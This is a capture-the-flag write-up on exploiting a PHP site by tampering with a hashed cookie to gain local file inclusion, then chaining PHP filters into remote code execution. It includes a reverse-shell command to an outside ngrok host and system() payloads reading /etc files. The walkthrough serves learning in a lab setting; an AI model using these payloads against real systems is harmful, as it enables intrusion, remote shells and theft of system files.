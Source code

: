 Challenge Name: Hack if u can

Challenge Description: Find the RCE to get access to the system

The goal is to get an RCE.

First thing, when you open the website, website there is nothing useful. I try to do fuzzing; I find a robots.txt and nothing useful, and I search for an for an exploit for the server Vesrion nginx 1.25.2, and the same thing is not useful.

![image](https://github.com/user-attachments/assets/ba835251-3fa5-4720-8e3e-c2b8cec71630)

After digging in the website i found two usefull dir robots.txt and policy.php when you access the robots.txt this is the content

Robots.txt:

![image](https://github.com/user-attachments/assets/159d97e2-b71f-4a2e-831a-8727fa3b3631)

Now we know where is the flag file

Then when try to access the policy.php there is a cookie called read have an md5hash end with .txt i try to decrypt it i and i got this

![image](https://github.com/user-attachments/assets/0e97a5c7-846f-4335-980c-2fe2332fa201)

read:b204217b677944e7c8d2a12c670b5467.txt

After decrypting it

read:myfile.txt

I noticed what happens if i put the flag file directly in the cookie,and this is the output:

![image](https://github.com/user-attachments/assets/77c84997-6bb6-47bb-ace4-0c60f36a60d2)

Then i try to read the /etc/password and it's work then i try to do php wrapper and it work

![image](https://github.com/user-attachments/assets/aa78ef2d-9814-4e6b-bdc0-cd3425e7361e)

Now let's make lfi2rce i use this tool php_filter_chain_generator for this step

First i try to read the phpinfo(); and it's work 
![image](https://github.com/user-attachments/assets/6d681caa-86cf-401a-a502-863bf5f878c5)

Then i try to make a rev shell like this ```python php_filter_chain_generator.py --chain '& /dev/tcp/6.tcp.eu.ngrok.io/14246 0>&1") ?>'```

but when i try it did not work becuse it's vary large payload

i try to run command directly like that php_filter_chain_generator.py --chain ```<?php system("uname -a");?>``` 

![image](https://github.com/user-attachments/assets/9e8f4006-f965-40df-95f0-503971e9661e)

Then i try to read all the file of the /etc/ dir i try this payload python php_filter_chain_generator.py --chain ```<?php system("cat /etc/*");?>```

![Screenshot 2024-09-25 155901](https://github.com/user-attachments/assets/6c29cfce-050b-4e53-bb4b-aefdbc4fc308)

Finaly i read the flag file


